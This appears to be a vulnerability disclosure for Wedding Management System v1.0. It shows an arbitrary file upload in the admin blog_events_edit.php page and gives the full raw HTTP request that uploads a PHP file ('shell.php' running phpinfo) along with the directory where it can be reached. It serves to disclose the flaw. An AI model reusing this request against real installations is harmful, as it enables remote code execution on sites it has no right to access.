 # Wedding Management System v1.0 by codeastr.com has arbitrary code execution (RCE)

vendor: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability url: http://ip/Wedding-Management/admin/blog_events_edit.php?id=31

Loophole location：There is an arbitrary file upload vulnerability (RCE) in the picture upload point of the "blog_events_edit.php" file of the "blog&events" module in the background management system

Request package for file upload：

```sql
POST /Wedding-Management/admin/blog_events_edit.php?id=31 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/Wedding-Management/admin/blog_events_edit.php?id=31
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------341485402087
Content-Length: 1083

-----------------------------341485402087
Content-Disposition: form-data; name="submit"


-----------------------------341485402087
Content-Disposition: form-data; name="wedding_type"

Elite
-----------------------------341485402087
Content-Disposition: form-data; name="title"

MR. & MRS. Atwood
-----------------------------341485402087
Content-Disposition: form-data; name="description"

92-acre Tuscan-inspired estate offering indoor and outdoor event spaces, as well as a Four Diamond inn and renowned restaurant.
-----------------------------341485402087
Content-Disposition: form-data; name="preview_image"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------341485402087
Content-Disposition: form-data; name="wedding_date"

03/24/2022
-----------------------------341485402087
Content-Disposition: form-data; name="location"

Vintners Resort
-----------------------------341485402087
Content-Disposition: form-data; name="status"

1
-----------------------------341485402087--
```

The files will be uploaded to this directory \admin\upload\events\

![image](https://user-images.githubusercontent.com/54017627/167978399-9f9e1634-fe87-4af3-aac5-b97bcc255535.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/167978515-e6e8a140-c010-4d75-82d9-8271832c4d8c.png)


